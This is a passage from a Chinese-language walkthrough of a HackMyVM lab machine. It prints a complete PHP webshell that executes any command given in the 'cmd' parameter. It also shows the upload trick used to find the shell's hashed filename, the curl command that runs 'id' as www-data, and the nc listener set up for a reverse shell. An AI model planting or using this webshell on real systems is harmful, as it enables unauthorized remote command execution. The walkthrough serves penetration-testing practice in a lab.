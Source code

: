 发现 `/images/` 目录。但是是301状态，尝试在`/images/`访问`reverse.php`显示404,服务器对文件名做了处理（MD5或者其他哈希）
重新上传一个简单的PHP一句话木马，内容为：

```php
<?php
if (isset($_REQUEST['cmd'])) {
    $command = $_REQUEST['cmd'];
    echo "<pre>"; // For better formatting of command output

    // Execute the command
    // Using passthru for direct output, or system/exec if preferred
    passthru($command, $return_var);
    // Alternatively:
    // $output = shell_exec($command);
    // echo htmlentities($output);

    echo "</pre>";
} else {
    echo "<html><head><title>PHP CMD Exec</title></head><body>";
    echo "<form method='GET'>";
    echo "Enter command: <input type='text' name='cmd' autofocus>";
    echo "<input type='submit' value='Execute'>";
    echo "</form>";
    echo "<p>Example: ?cmd=ls -la OR ?cmd=whoami</p>";
    echo "</body></html>";
}
?>
```

上传时，给文件名加了一个`'`成功报错拿到了真实文件名。
![image-20250516165009887](https://7r1UMPH.top/image/20250516165010255.webp)
访问 `http://dark.disguise.hmv/images/8d755f95e5203d7d71d93aefa9649514.php?cmd=id`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ curl http://dark.disguise.hmv/images/8d755f95e5203d7d71d93aefa9649514.php?cmd=id
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

命令成功执行，当前用户为 `www-data`。

### 七、权限提升

#### 7.1 获取反弹Shell

利用已上传的Webshell获取一个反弹Shell，以便进行更方便的操作。
在Kali上设置监听：

```
┌──(kali㉿kali)-[/mnt/hgfs/gx/shell]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```

